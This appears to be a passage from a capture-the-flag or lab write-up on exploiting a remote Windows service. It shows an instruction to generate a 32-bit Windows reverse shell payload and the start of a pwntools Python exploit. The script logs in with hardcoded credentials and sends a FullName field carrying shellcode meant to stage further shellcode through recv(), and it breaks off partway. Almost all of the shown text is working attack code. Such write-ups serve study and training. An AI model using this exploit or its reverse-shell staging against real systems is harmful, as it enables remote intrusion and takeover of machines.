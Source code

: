 ![](images/Pasted%20image%2020220308155156.png)

Generate a 32-bit Windows reverse shell payload and put it all together in an exploit.

```python
from pwn import *
import sys
import struct
import time


if len(sys.argv) < 3:
    print(f"[!] Usage: {sys.argv[0]} $RHOST $RPORT")
    sys.exit(1)

for _ in range(5):
    try:
        io = remote(sys.argv[1], sys.argv[2])
        io.recvline()
        io.recv(10)

        username = b"alfiansyah"
        password = b"K3r4j@@nM4j@pAh!T"
        print(f"[*] Connected! Logging in with credentials {username.decode()}:{password.decode()}...")
        io.sendline(username)
        io.recv(10)
        io.sendline(password)
        io.recvline()
        io.recv(10)

        print(f"[*] Sending FullName with payload to set up recv() call...")
        full_name = b"\x8b\x2c\x24"                 # mov ebp, [esp] -> saving current address in ebp
                                                    # so we can stage additional shellcode via recv()

```